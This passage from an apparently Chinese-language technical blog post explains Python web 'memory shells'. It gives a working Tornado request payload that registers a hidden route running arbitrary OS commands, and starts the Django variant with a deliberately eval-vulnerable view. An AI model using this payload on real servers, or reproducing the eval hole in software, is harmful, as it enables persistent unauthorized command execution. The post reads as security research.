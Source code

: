 ### 结果

将所有分析结合起来，即可在当前场景下构造出下面的请求payload

```python
http://127.0.0.1:5000/?expression=self.application.add_handlers('.*', ['/tornado-shell', type('ShellHandler', (tornado.web.RequestHandler,), {'get': lambda self: self.write(__import__('os').popen(self.get_argument('cmd', 'id')).read())})])
```

在发出这条请求之后，应用正常返回

![](/img/python-web-memory-shell/Pasted%20image%2020240612103452.png)

之后就可以通过访问 `/tornado-shell` 路由获得任意命令执行的能力

![](/img/python-web-memory-shell/20240709095945.png)

## Django

### 场景代码

```python
# memshell/urls.py
from django.contrib import admin
from django.urls import path
from .views import calc

urlpatterns = [
    path('admin/', admin.site.urls),
    path('calc', calc)
]

# memshell/views.py
from django.http import HttpResponse

def calc(request):
    result = eval(request.GET.get('expression'))
    return HttpResponse('<h2>result: %s!</h2>' % result)
```

虽然 `Django` 的代码结构不太相同，但由于所有路由都定义在 `app/urls.py#urlpatterns` 中，所以大体思路没有什么差别，首先考虑如何获取到这个列表，然后再进行操作

### 获取app.urlpatterns

在 `Django` 中，root app下会有一个 `settings.py` 文件用于定义应用配置，其中 `ROOT_URLCONF` 指定了当前应用路由入口，在当前场景下的 `ROOT_URLCONF` 为

```python
ROOT_URLCONF = 'memshell.urls'
```

首先考虑如何获取到 `settings` 这个对象，得益于当前场景下可以使用 `request`，所以使用其中函数的 `__globals__` 属性来获取到当前的全局变量字典，其中就可以找到

![](/img/python-web-memory-shell/Pasted%20image%2020240614101840.png)
